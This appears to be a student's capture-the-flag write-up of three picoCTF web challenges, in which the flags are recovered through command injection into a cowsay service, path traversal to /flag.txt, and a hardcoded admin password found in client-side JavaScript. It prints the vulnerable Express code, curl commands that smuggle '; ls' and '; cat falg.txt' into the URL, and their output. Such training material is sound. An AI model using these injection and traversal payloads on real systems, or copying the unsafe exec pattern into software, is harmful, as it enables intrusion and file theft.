 # cass

**Flag:** `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

We're given a [website](https://caas.mars.picoctf.net/) where we can enter a message and have it be output by cowsay. We're also given an `index.js` file with the following contents

```
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
    exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
        if (error) return res.status(500).end();
        res.type('txt').send(stdout).end();
    });
});

app.listen(3000, () => {
    console.log('listening');
});
```

It turns out the service simply runs the `exec` command on whatever our message at the end of our url is. This is perfect for injecting unwanted shell code. First, we inject `ls` to see the list of all the files in the home directory


```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test; ls"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

We find a file `falg.txt`, presumably containing the desired flag. Running `curl` once again, we find that is indeed the case

```
~ $ curl "https://caas.mars.picoctf.net/cowsay/test; cat falg.txt"
 ______
< test >
 ------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

# Forbidden Paths

**Flag:** `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`

Here, the flag is given in the file `/flag.txt`, but absolute paths are not allowed to be entered. We know an nginx website is stored at `/usr/share/nginx/html/`, so we use relative file paths to traverse to the file.

![The input](../Images/input.png)

Since we are four levels deep in the root directory, we use `../` four times.

![The flag](../Images/path_flag.png)

So the flag turns out to be `picoCTF{7h3_p47h_70_5ucc355_e5a6fcbc}`.

# Local Authority

**Flag:** `picoCTF{j5_15_7r4n5p4r3n7_05df90c8}`

We are given a website `http://saturn.picoctf.net:50920/`, which opens to a login page.

![Portal](../Images/login_portal.png)

We open our browser's network tab and enter meaningless data in the input fields. After that we open the request titled `secure.js` and go into its *Response* tab.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/e08177a5-6516-4291-98d0-47a89f523bd6


We find the following (very insecure!) JavaScript code that checks whether the username and password are that of the admin's or not

```
function checkPassword(username, password)
{
  if( username === 'admin' && password === 'strongPassword098765' )
  {
    return true;
  }
  else
  {
    return false;
  }
}
```

Therefore, the username we need is `admin` and the password `strongPassword098765`. Using these details, we successfully log in and acquire the flag.


https://github.com/lucky-vers/Cryptonite-Taskphase/assets/51952975/8b7d50f8-eb97-4801-b99e-16fe569cc6e0




